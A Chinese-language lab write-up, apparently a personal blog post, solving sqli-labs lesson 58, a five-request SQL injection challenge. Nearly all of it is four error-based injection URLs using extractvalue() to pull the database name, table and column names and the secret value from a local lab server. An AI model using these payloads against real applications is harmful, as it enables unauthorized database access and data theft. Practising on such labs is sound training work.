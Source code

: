 ```yaml
---
title: sqli-labs-lession 58 GET-双注入-变化1-仅允许5次请求
date: 2018-11-29 00:25:10
tags: [sqli-labs]
categories: sql注入
---
```


# sqli-labs-lession 58 GET-双注入-变化1-仅允许5次请求

---

## 手注

有报错注入

`http://192.168.75.133:8082/Less-58/?id=1'and+extractvalue(null,concat(0x7e,database(),0x7e))%23`

![001](/img/sql/Lesson-58/001.png)

次数不够了,重启...

`http://192.168.75.133:8082/Less-58/?id=1'and+extractvalue(null,concat(0x7e,(select+group_concat(table_name)from+information_schema.TABLES+WHERE+TABLE_schema='challenges'),0x7e))%23`

![002](/img/sql/Lesson-58/002.png)

`http://192.168.75.133:8082/Less-58/?id=1'and+extractvalue(null,concat(0x7e,(select+group_concat(column_name)from+information_schema.columns+WHERE+TABLE_schema='challenges'+and+table_name='4wdd58q1in'),0x7e))%23`

![003](/img/sql/Lesson-58/003.png)

`http://192.168.75.133:8082/Less-58/?id=1'and+extractvalue(null,concat(0x7e,(select+GROUP_CONCAT(secret_SYCF)from challenges.4wdd58q1in),0x7e))%23`

![004](/img/sql/Lesson-58/004.png)

提交

![005](/img/sql/Lesson-58/005.png)